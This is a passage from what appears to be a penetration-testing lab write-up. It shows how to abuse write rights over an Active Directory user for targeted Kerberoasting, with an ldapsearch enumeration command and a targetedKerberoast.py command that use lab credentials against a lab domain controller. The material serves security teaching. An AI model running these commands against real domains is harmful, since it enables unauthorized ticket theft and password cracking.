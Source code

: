 **TargetedKerberoast.py Github**
* https://github.com/ShutdownRepo/targetedKerberoast

### Enumerate SPN on Target Account.

Once again, we can use **ldapsearch** to query the **target account** and verify if a **Service Principal Name (SPN)** has been attached to the **user account**. We can also use **BloodHound** if you have a **collection**.

**Ldapsearch Command:**
```bash
ldapsearch -x -H ldap://192.168.1.154 -D "jaremy.rykker@north.sevenkingdoms.local" -w 'Winter123!' -b "DC=north,DC=sevenkingdoms,DC=LOCAL" "(sAMAccountName=robb.stark)" servicePrincipalName
```
Image below shows the **output** fromt he above **ldapsearch** query. As can be seen, no SPN is attached the target account. 
![method2-enum-spn](assets\images\dacl-gw-on-user\method2-TargetedKerberoast\method2-spn-enum.png)

### Use targetedKerberoast.py to temporarily add an SPN and perform a Kerberoast.

The targetedKerberoast.py **script** will **automatically** perform all the steps outlined in Method 1, **adding an SPN**, performing a **Kerberoast** attack, and then **removing** the SPN once complete.

**TargetedKerberoast.py Script Command:**
```bash
python3 targetedKerberoast.py -v --dc-ip 192.168.1.154 -d north.sevenkingdoms.local -u jaremy.rykker -p 'Winter123!' --request-user robb.stark
```

Image below shows the **output** of the targetedKerberoast.py script in action. 
![method2-kerberoast](assets\images\dacl-gw-on-user\method2-TargetedKerberoast\method2-targetedKerberoast-kerberoast.png)
